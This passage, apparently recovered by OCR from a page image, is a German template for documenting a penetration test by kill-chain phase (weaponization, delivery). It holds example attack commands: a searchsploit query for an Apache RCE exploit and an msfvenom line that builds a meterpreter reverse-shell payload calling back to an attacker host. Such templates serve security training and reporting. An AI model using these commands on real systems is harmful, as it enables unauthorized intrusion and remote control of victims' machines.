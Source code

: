     - Eine prägnante Zusammenfassung der wichtigsten Informationen, die in dieser Phase gewonnen wurden und die für die nachfolgenden Phasen relevant sind (z.B., "Es wurde ein Webserver mit einer potenziell anfälligen Version identifiziert. Zudem wurden SMB-Freigaben und mögliche Benutzernamen gefunden.").

**X.2 Phase 2: Bewaffnung (Weaponization)**

- **X.2.1 Ziel der Phase:**
    
    - Beschreibung des Ziels (z.B., "Das Ziel dieser Phase war die Auswahl und Vorbereitung eines geeigneten Exploits und Payloads basierend auf den in der Aufklärungsphase gewonnenen Erkenntnissen.").
- **X.2.2 Identifizierung einer Schwachstelle:**
    
    - Detaillierte Beschreibung der identifizierten Schwachstelle (z.B., "Die in Phase 1 identifizierte Version 'Apache httpd 2.4.29' ist anfällig für die CVE-2020-XXXX, eine Remote Code Execution Schwachstelle.").
- **X.2.3 Suche nach Exploits:**
    
    - **Tool:** `searchsploit`
    - **Befehl:** `searchsploit apache 2.4.29 rce`
    - **Beschreibung:** Erläuterung des Befehls und der Suchergebnisse.
    - **Ergebnisse:** (Liste der gefundenen Exploits).
    - **Analyse:** Auswahl eines geeigneten Exploits (z.B., "Der Exploit 'Apache httpd 2.4.29 - mod_rewrite .htaccess Bypass Remote Code Execution' wurde als vielversprechend für dieses Szenario ausgewählt.").
- **X.2.4 Payload-Generierung:**
    
    - **Tool:** `msfvenom`
    - **Befehl (Beispiel für Linux-Ziel):** `msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Deine Kali-IP> LPORT=4444 -f elf -o payload.elf`
    - **Beschreibung:** Detaillierte Erläuterung des Befehls und der ausgewählten Payload-Optionen (z.B., warum `reverse_tcp` gewählt wurde, die Bedeutung von `LHOST` und `LPORT`).
    - **Begründung der Payload-Wahl:** (z.B., "Ein Reverse TCP Payload wurde gewählt, da er eine Verbindung vom Zielsystem zurück zum Angreifer initiiert, was in Umgebungen mit restriktiven Firewall-Regeln oft besser funktioniert.").

**X.3 Phase 3: Zustellung (Delivery)**

- **X.3.1 Ziel der Phase:**
    
    - Beschreibung des Ziels (z.B., "Das Ziel dieser Phase war die Übermittlung des präparierten Exploits und Payloads an das Zielsystem.").
- **X.3.2 Auswahl des Delivery-Vektors:**
    
    - Begründung der Wahl des Delivery-Vektors (z.B., "Aufgrund der identifizierten Webserver-Schwachstelle wurde die direkte Ausnutzung über das Netzwerk als Zustellmethode gewählt.").
- **X.3.3 Durchführung der Zustellung:**
    
    - **Methode:** Beschreibung der Methode zur Ausnutzung der Webserver-Schwachstelle (z.B., "Der ausgewählte Exploit nutzt eine Schwachstelle in der `mod_rewrite`-Funktionalität des Apache Webservers aus. Der Exploit wird über eine speziell präparierte HTTP-Anfrage an den Server gesendet.").
    - **Verwendetes Tool (falls zutreffend):** (z.B., "Ein manuell erstelltes Python-Skript wurde verwendet, um die präparierte HTTP-Anfrage zu senden.").
    - **Code-Ausschnitte (falls relevant):** (Ausschnitte des verwendeten Skripts oder der präparierten Anfrage).
